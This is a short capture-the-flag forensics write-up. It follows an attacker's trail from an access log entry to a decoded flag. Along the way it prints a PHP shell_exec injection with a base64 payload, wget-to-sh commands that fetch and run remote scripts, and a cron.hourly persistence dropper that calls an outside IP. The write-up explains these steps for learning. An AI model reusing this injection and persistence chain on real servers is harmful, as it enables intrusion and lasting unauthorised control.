 Inspecting `access.log`, we find a suspicious request:

```
192.168.138.1 - - [29/Oct/2020:00:08:06 +0300] "GET /test-verysecretfile.php?expression=shell_exec%28%22%60echo+c2ggLWMgIiQod2dldCAtTy1odHRwczovL2dpc3QuZ2l0aHVidXNlcmNvbnRlbnQuY29tL0FldGhlckV0ZXJuaXR5LzQ4NGZlYzZmYjBmMjdlZjZlYzgxYjU4YWVlNTZlZGQxL3Jhdy8wN2MyZjc5NjBlYTE1MmVmOTRjMjBmZDJjMDlkZjU0YmMyMWQ4NmU5L3N0YWdlLnNoKSI%3D+%7C+base64+-d%60%22%29 HTTP/1.1" 200 435 "-" "python-requests/2.23.0"
```

The base64 string decodes to:

```
sh -c "$(wget -O-https://gist.githubusercontent.com/AetherEternity/484fec6fb0f27ef6ec81b58aee56edd1/raw/07c2f7960ea152ef94c20fd2c09df54bc21d86e9/stage.sh)"
```

Now let's see what this piece of code does:

```
#!/bin/sh
NEW_UUID=$(cat /dev/urandom | tr -dc 'a-zA-Z0-9' | fold -w 32 | head -n 1)

echo $NEW_UUID > /etc/persist

BASE="http://188.143.222.218:4455/persist?uuid="
wget -O /etc/cron.hourly/persist "$BASE$NEW_UUID"
chmod +x /etc/cron.hourly/persist
```

Where can we find this UUID? Let's have a look at `syslog`:

```
Oct 29 0:26:54 debian-min root: Started door with uid AV0pUn47GjLGyaOXdMAbfeuef6WDFGfy
```

Now we visit [http://188.143.222.218:4455/persist/?uuid=AV0pUn47GjLGyaOXdMAbfeuef6WDFGfy](http://188.143.222.218:4455/persist/?uuid=AV0pUn47GjLGyaOXdMAbfeuef6WDFGfy)

```
#!/bin/sh
UUID = `cat /etc/persist`
BASE="http://188.143.222.218:4455/?uuid="
logger -s "Started door with uid $UUID"
sh -c "$(wget -O- $BASE$NEW_UUID)"
```

Follow the trace to [http://188.143.222.218:4455/?uuid=AV0pUn47GjLGyaOXdMAbfeuef6WDFGfy](http://188.143.222.218:4455/?uuid=AV0pUn47GjLGyaOXdMAbfeuef6WDFGfy):

```
sh -c "`echo ZWNobyBPTllHRVkzVU1aNVdXTVpUT0JQWFNNRFZPSlBXTTVEUUw1WlRJWlJUUFVGQT09PT0gfCBiYXNlMzIgLWQgPiAvZXRjL3NlY3JldC5mbGFnCg== | base64 -d`"
```

Decode the base64 string:

```
echo ONYGEY3UMZ5WWMZTOBPXSMDVOJPWM5DQL5ZTIZRTPUFA==== | base32 -d > /etc/secret.flag
```

Decode again and we get the flag: `spbctf{k33p_y0ur_ftp_s4f3}`
